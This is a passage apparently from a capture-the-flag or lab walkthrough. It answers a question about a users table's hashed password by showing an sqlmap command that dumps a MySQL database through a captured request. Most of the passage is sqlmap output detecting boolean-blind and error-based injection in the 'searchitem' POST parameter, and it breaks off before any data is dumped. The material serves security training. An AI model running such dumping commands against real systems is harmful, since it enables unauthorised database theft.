 SQLMap will now try different methods and identify the one thats vulnerable. Eventually, it will output the database.

In the users table, what is the hashed password?

**Answer**

~~~
$ /data/src/sqlmap-dev/sqlmap.py -r request.xml --dbms=mysql --dump
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.4.5.19#dev}
|_ -| . [(]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 18:21:30 /2020-06-08/

[18:21:30] [INFO] parsing HTTP request from 'request.xml'
[18:21:31] [INFO] testing connection to the target URL
[18:21:31] [INFO] checking if the target is protected by some kind of WAF/IPS
[18:21:31] [INFO] testing if the target URL content is stable
[18:21:31] [INFO] target URL content is stable
[18:21:31] [INFO] testing if POST parameter 'searchitem' is dynamic
[18:21:31] [WARNING] POST parameter 'searchitem' does not appear to be dynamic
[18:21:31] [INFO] heuristic (basic) test shows that POST parameter 'searchitem' might be injectable (possible DBMS: 'MySQL')
[18:21:32] [INFO] heuristic (XSS) test shows that POST parameter 'searchitem' might be vulnerable to cross-site scripting (XSS) attacks
[18:21:32] [INFO] testing for SQL injection on POST parameter 'searchitem'
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] 
[18:21:37] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[18:21:37] [WARNING] reflective value(s) found and filtering out
[18:21:38] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[18:21:38] [INFO] testing 'Generic inline queries'
[18:21:38] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[18:21:41] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[18:21:41] [INFO] POST parameter 'searchitem' appears to be 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)' injectable (with --string="11")
[18:21:41] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[18:21:41] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
[18:21:41] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[18:21:41] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
[18:21:41] [INFO] testing 'MySQL >= 5.7.8 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (JSON_KEYS)'
[18:21:41] [INFO] testing 'MySQL >= 5.7.8 OR error-based - WHERE or HAVING clause (JSON_KEYS)'
[18:21:42] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[18:21:42] [INFO] testing 'MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[18:21:42] [INFO] POST parameter 'searchitem' is 'MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)' injectable 
[18:21:42] [INFO] testing 'MySQL inline queries'
[18:21:42] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[18:21:42] [INFO] testing 'MySQL >= 5.0.12 stacked queries'
[18:21:42] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP - comment)'
[18:21:42] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP)'
[18:21:42] [INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query - comment)'
~~~